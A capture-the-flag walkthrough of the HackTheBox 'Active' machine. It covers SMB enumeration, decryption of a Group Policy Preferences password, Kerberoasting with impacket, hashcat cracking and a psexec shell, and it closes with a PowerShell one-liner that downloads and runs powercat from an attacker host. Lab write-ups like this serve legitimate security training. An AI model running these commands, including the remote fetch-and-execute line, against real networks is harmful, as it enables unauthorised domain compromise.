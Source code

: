 ```yaml
---
title: "Active - HTB"
categories: [HackTheBox,Easy]
tags: [HTB,Easy,Windows,Kerberoasting,Kerberos,AD,SMB]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Active.png
---
```


This box is a Windows Easy. We’ll start enumerate SMB, where the `Replication` share will find. There’re a file that contains a user and a pass encrypted with GPP. After to decrypt the pass, we will do a **Kerberoasting Attack.** We’ll get the hash Administrator user.

**Have a good time!**

# Introdution

[https://app.hackthebox.com/machines/Active](https://app.hackthebox.com/machines/Active)

* **IP:** 10.10.10.100

## Diagram

```mermaid
graph TD
  Enumeration --> B(Enum_SMB) --> 
  C[/Replication/] --> |GPP| D[User: SVC_TG] --> 
  Exploration --> |Kerberoasting Attack| E(Administrator)
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled.png){: .shadow}

The `active.htb` domain was found, let’s insert in `/etc/hosts`{: .filepath}

## SMB - TCP 139/445

Lets enumerate the SMB using the `smbclient`*.*

```bash
smbclient -N -L //10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%201.png)

The `Replication` share was found and we can access it.

### Share Replication - SMB

```bash
smbclient -N //10.10.10.100/replication
```

There’re some files interesting.

- ***/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml***

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%202.png)

We have userName and a probable password.

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

> **Senhas GPP**
> 
> Whenever a new Group Policy Preference (GPP) is created, there is an xml file created on the SYSVOL share with this configuration data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before storing it as `cpassword`. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!
> 
> Microsoft released a patch in 2014 that prevented administrators from putting passwords in GPP. But this patch does nothing about any of those breakable passwords that were already there, and as I understand it, pentesters are still regularly encountering them in 2018. For more details, check out this [AD security post](https://adsecurity.org/?p=2288).
> 
{: .prompt-info }

## Decrypting the GPP Password

Since the key is know, I can decrypt the pass. Kali have a tool called `gpp-decrypt` that It’ll this.

`gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

We found the pass for user **active.htb\SVC_TGS** : **GPPstillStandingStrong2k18**

## Enumerating SMB

With the username and password, let's enumerate the smb with the credential.

```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%203.png)

We gain access to three more shares: `NETLOGON, SYSVOL, Users`

### Shares Users - SMB

```bash
smbclient //10.10.10.100/Users -U "active.htb\\SVC_TGS%GPPstillStandingStrong2k18"
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%204.png)

The `Users` share is the directory `C:\Users`{: .filepath}

In `/users/SVC_TGS/Desktop/`{: .filepath}, We found the `user.txt`, which contains a flag. 

# Exploration

## Kerberoasting

We'll use the **active.htb/SVC_TGS**:`GPPstillStandingStrong2k18` credentials to get a list of service usernames that are associated with regular user accounts.

We found a user: Administrator

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%205.png)

It also gives me the ticket, which I can try to brute-force decrypt to get the user's password:

```bash
cat GetUserSPNs.out
```

Cracking the hash:

```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%206.png)

We found the pass to **Administrator**:`Ticketmaster1968`

### Getting the Shell

With the credencials found, We log through **psexec**:

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```

We have shell root.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%207.png)

**HABEMUS!!!**

# Post Exploration

## **Spawn Shell**

```powershell
powershell -c iex(new-object system.net.webclient).downloadstring('http://10.10.14.4/powercat.ps1')
```
